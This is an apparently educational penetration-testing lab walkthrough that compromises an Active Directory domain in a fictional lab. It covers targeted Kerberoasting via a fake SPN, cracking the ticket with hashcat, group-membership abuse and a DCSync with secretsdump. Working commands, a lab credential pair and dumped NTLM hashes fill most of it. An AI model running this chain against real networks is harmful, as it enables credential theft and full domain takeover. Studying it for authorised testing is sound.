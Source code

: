 # Active Directory Compromise

To recap, we dug through the Active Directory environment and obtained the following credential pair:

`mssqladm:DBAilfreight1!`

Digging into the BloodHound data we see that we have `GenericWrite` over the `ttimmons` user. Using this we can set a fake SPN on the `ttimmons account` and perform a targeted Kerberoasting attack. If this user is using a weak password then we can crack it and proceed onwards.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's go back to the `DEV01` machine where we had loaded PowerView. We can create a PSCredential object to be able to run commands as the `mssqladm` user without having to RDP again.

```powershell
PS C:\DotNetNuke\Portals\0> $SecPassword = ConvertTo-SecureString 'DBAilfreight1!' -AsPlainText -Force
PS C:\DotNetNuke\Portals\0> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\mssqladm', $SecPassword)
```

Next we'll use `Set-DomainObject` to set a fake SPN on the target account. We'll create an SPN named `acmetesting/LEGIT` which we'll of course delete later and note in the appendices of our report.

```powershell
PS C:\DotNetNuke\Portals\0> Set-DomainObject -credential $Cred -Identity ttimmons -SET @{serviceprincipalname='acmetesting/LEGIT'} -Verbose

VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=ttimmons)(name=ttimmons)(displayname=ttimmons))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'acmetesting/LEGIT' for object 'ttimmons
```

Next we can go back to our attack host and use `GetUserSPNs.py` to perform a targeted Keberoasting attack.

```shell-session
$ proxychains GetUserSPNs.py -dc-ip 172.16.8.3 INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:389-<><>-OK
ServicePrincipalName  Name      MemberOf  PasswordLastSet             LastLogon  Delegation 
--------------------  --------  --------  --------------------------  ---------  ----------
acmetesting/LEGIT     ttimmons            2022-06-01 14:32:18.194423  <never>               



|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:88-<><>-OK
$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$6c391145c0c6430a1025df35c3e674c4$<SNIP>
```

Next we'll fire up Hashcat and see if the user is using a weak password.

```shell-session
$ hashcat -m 13100 ttimmons_tgs /usr/share/wordlists/rockyou.txt

hashcat (v6.1.1) starting...

<SNIP>

$krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/ttimmons*$$6c391145c0c6430a1025df35c3e674c4$<SNIP>:<PASSWORD REDACTED>
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, TGS-REP
Hash.Target......: $krb5tgs$23$*ttimmons$INLANEFREIGHT.LOCAL$INLANEFRE...6e6976
Time.Started.....: Wed Jun 22 16:32:27 2022 (22 secs)
Time.Estimated...: Wed Jun 22 16:32:49 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   485.7 kH/s (2.50ms) @ Accel:16 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10678272/14344385 (74.44%)
Rejected.........: 0/10678272 (0.00%)
Restore.Point....: 10672128/14344385 (74.40%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: Rock4ever! -> Redeye2

Started: Wed Jun 22 16:32:24 2022
Stopped: Wed Jun 22 16:32:51 2022
```

They are! Now we have yet another credential pair, time for the ttimmons user. Let's check and see what type of access this user has. Looking in BloodHound again we see that we have `GenericAll` over the `SERVER ADMINS` group.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Looking a bit further we see that the `SERVER ADMINS` group has the ability to perform the DCSync attack to obtain NTLM password hashes for any users in the domain.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We use abuse this by first adding the `ttimmons` user to the group. First we'll need to create another PSCredential object.

```powershell
PS C:\htb> PS C:\DotNetNuke\Portals\0> $timpass = ConvertTo-SecureString '<PASSWORD REDACTED>' -AsPlainText -Force
PS C:\DotNetNuke\Portals\0> $timcreds = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\ttimmons', $timpass)
```

Once this is done, we can add the user to the target group and inherit the DCSync privileges.

```powershell
PS C:\DotNetNuke\Portals\0> $group = Convert-NameToSid "Server Admins"
PS C:\DotNetNuke\Portals\0> Add-DomainGroupMember -Identity $group -Members 'ttimmons' -Credential $timcreds -verbose

VERBOSE: [Get-PrincipalContext] Using alternate credentials
VERBOSE: [Add-DomainGroupMember] Adding member 'ttimmons' to group 'S-1-5-21-2814148634-3729814499-1637837074-1622
```

Finally, we can use Secretsdump to DCSync all NTLM password hashes from the Domain Controller.

```shell-session
$ proxychains secretsdump.py ttimmons@172.16.8.3 -just-dc-ntlm

ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.9.24.dev1+20210922.102044.c7bc76f8 - Copyright 2021 SecureAuth Corporation

Password:
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:135-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:49676-<><>-OK
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fd1f7e55xxxxxxxxxx787ddbb6e6afa2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b9362dfa5abf924b0d172b8c49ab58ac:::
inlanefreight.local\avazquez:1716:aad3b435b51404eeaad3b435b51404ee:762cbc5ea2edfca03767427b2f2a909f:::
inlanefreight.local\pfalcon:1717:aad3b435b51404eeaad3b435b51404ee:f8e656de86b8b13244e7c879d8177539:::
inlanefreight.local\fanthony:1718:aad3b435b51404eeaad3b435b51404ee:9827f62cf27fe221b4e89f7519a2092a:::
inlanefreight.local\wdillard:1719:aad3b435b51404eeaad3b435b51404ee:69ada25bbb693f9a85cd5f176948b0d5:::

<SNIP>
```

***

## Next Steps

After making sure to document all of our steps we could perform a number of actions, many of which are detailed in the next section. Its definitely a good idea to dump the entire NTDS database and perform offline password cracking to give the client an idea of their overall password strength and other metrics. You could also show evidence of being able to authenticate to a Domain Controller and running a few commands as this may drive the point home more than seeing secretsdump output, which they may not be familiar with. Connecting to the Domain Controller via RDP and including a screenshot to the report showing a console open with the results of the `hostname`, `whoami`, and `ipconfig /all` commands can be a great visual. There is also a lot of extra value we can add after Domain Admin by performing additional audit steps of AD, attacking domain and forest trusts (if in scope) and, finally, testing the client's alerting by either creating a new Domain Admin and Enterprise Admin or adding an account we control into each of these groups. Ideally they are monitoring these highly privileged groups and will catch this and either manually, or, even better, have something automated in place to remove the accounts from the groups. If you do this definitely include this action in the report as a configuration change in the appendices and also give the client kudos if they do detect it and action it appropriately. Giving credit for the good things you see in the network/the client does is important and goes a long way towards building good will.
